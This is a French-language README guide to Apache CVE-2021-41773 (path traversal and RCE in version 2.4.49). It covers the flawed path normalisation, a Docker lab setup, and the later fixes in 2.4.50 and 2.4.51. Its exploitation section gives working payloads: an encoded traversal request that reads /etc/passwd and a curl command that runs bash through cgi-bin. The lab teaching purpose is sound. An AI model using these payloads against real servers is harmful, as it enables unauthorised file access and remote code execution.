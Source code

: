 # Apache CVE-2021-41773 : Guide de compréhension et d’exploitation  

Ce guide vous accompagne dans la compréhension et l’exploitation de la **vulnérabilité CVE-2021-41773** dans Apache, en détaillant comment **le path traversal et l'exécution de code à distance (RCE)** étaient possibles en raison d'une validation incorrecte des entrées. Vous découvrirez comment cette vulnérabilité a été introduite, comment les attaquants l'ont exploitée et comment elle a finalement été corrigée.

L’attaque **CVE-2021-41773** est une vulnérabilité découverte dans **Apache HTTP Server 2.4.49**, qui permet à un attaquant non authentifié d’accéder à des fichiers en dehors du répertoire racine du serveur via un contournement des restrictions de chemin d’accès (**path traversal**).

📌 **Problème dans le code source**  
Le problème vient d’une modification du fichier **"modules/http/http_request.c"** dans Apache 2.4.49, qui a introduit une erreur dans le processus de normalisation des chemins. Cette erreur permet aux attaquants d’utiliser des séquences comme **`../../`** pour contourner les restrictions et accéder à des fichiers arbitraires sur le serveur.

⚠️ **Détails de l’attaque**  
1. **Path Traversal** : L’attaque exploite cette mauvaise gestion des chemins pour accéder à des fichiers sensibles en dehors du répertoire autorisé.  
2. **Exécution de code** : Si le module CGI est activé, un attaquant peut exécuter du code arbitraire sur le serveur, entraînant une vulnérabilité de **Remote Code Execution (RCE)**.  
3. **Conditions** : La vulnérabilité est présente uniquement si la directive **`Require all denied`** n’est pas correctement configurée.
---

## Prerequisites

1. **Curl installé** : Assurez-vous que curl est installé sur votre système.  
   - Vérifiez avec :  
     ```bash
     curl --version
     ```

2. **Docker installé** : Assurez-vous que Docker est installé sur votre système.  
   - Vérifiez la version de Docker :  
     ```bash
     docker --version
     ```
     
## Exploiting the Vulnerability
### Payload for Exploitation
Une requête malveillante comme :  
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
permet de lire des fichiers en dehors du répertoire racine.

### Steps to Exploit

1. Télécharger l'image Docker contenant l'application vulnérable démontrant la faille RCE via path traversal
 docker pull eddycaron/diable:rcepathtraversal

2. Lancer l'application vulnérable dans un conteneur Docker en mode détaché (en arrière-plan) et lier le port 8080 du conteneur au port 80 de l'hôte
 docker run -d -p 8080:80 --name rcept eddycaron/diable:rcepathtraversal

3. Envoyer une requête HTTP malveillante via curl pour exploiter la vulnérabilité de path traversal et exécuter une commande arbitraire (bash), récupérant ainsi le fichier /etc/passwd
 curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d "echo Content-Type: text/plain; echo; cat /etc/passwd" -H "Content-Type: text/plain" 


# Impact

- **Accès non autorisé à des fichiers sensibles** : L'exploitation de la vulnérabilité permettait à un attaquant de lire des fichiers en dehors du répertoire racine du serveur, comme des fichiers de configuration ou des mots de passe.  
- **Exécution de code à distance (RCE)** : En exploitant le CGI, un attaquant pouvait exécuter du code arbitraire sur le serveur, compromettant ainsi la sécurité du système.  
- **Exposition des systèmes** : Si la vulnérabilité n'était pas corrigée, elle exposait potentiellement des systèmes à des attaques de type **remote code execution**, entraînant un risque d'élévation de privilèges et d'accès non autorisé à des ressources sensibles.


# Mitigation
Correctif:
La vulnérabilité a été corrigée dans Apache 2.4.50, mais cette version était toujours vulnérable à une variante de l’attaque (si le caractère "point" est encodé deux fois en URL, la vulnérabilité persiste). Ce n’est qu’avec Apache 2.4.51 que le problème a été définitivement résolu.

pour plus de detaille, et pour voir le code source: https://www.hackthebox.com/blog/cve-2021-41773-explained

## Key Takeaways 

- Cette vulnérabilité illustre les risques liés à une mauvaise gestion de la normalisation des chemins dans Apache.  
- Des attaquants pouvaient exploiter cette faille pour accéder à des fichiers sensibles ou exécuter du code à distance (RCE).  
- Toujours valider et filtrer les entrées utilisateur pour éviter les attaques de type path traversal et injection de commande.  
